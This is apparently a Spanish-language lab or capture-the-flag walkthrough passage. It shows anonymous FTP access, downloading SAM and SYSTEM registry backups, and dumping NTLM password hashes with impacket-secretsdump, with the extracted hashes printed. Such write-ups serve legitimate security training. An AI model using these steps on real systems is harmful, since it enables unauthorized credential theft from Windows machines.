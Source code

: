 
Veremos varias cosas interesantes entre ellas un `FTP` que vemos de primeras que el modo `anonimo` si se puede loguear, por lo que vamos a intentar iniciar sesion.

## FTP

```shell
ftp anonymous@<IP>
```

Info:

```
229 Entering extended passive mode (|||35789|).
125 Data connection already open. Transfer starting.
drwxrwxrwx   2 root     root         4096 Feb 09  2024 .backup
226 Transfer complete.
```

Si listamos veremos que hay un `.backup` de directorio, si entramos dentro veremos dos archivos que seran los siguientes:

```shell
cd .backup
ls -la
```

Info:

```
229 Entering extended passive mode (|||41389|).
125 Data connection already open. Transfer starting.
-rwxrwxrwx   1 root     root        24576 Feb 09  2024 sam.bak
-rwxrwxrwx   1 root     root      3264512 Feb 09  2024 system.bak
226 Transfer complete.
```

Vemos que son dos archivos relacionados con las tipicas claves que nos podemos encontrar en un `windows` para poder extraer los `hashes` `NTLM` de dicho `windows`, por lo que dentro tiene que haber cosas interesantes.

```shell
get sam.bak
get system.bak
```

Una vez que nos lo hayamos descargado, vamos a extraer dichos `hashes`.

```shell
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x042145cf7279c87791fa907cd6d9bccd
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
[*] Cleaning up...
```

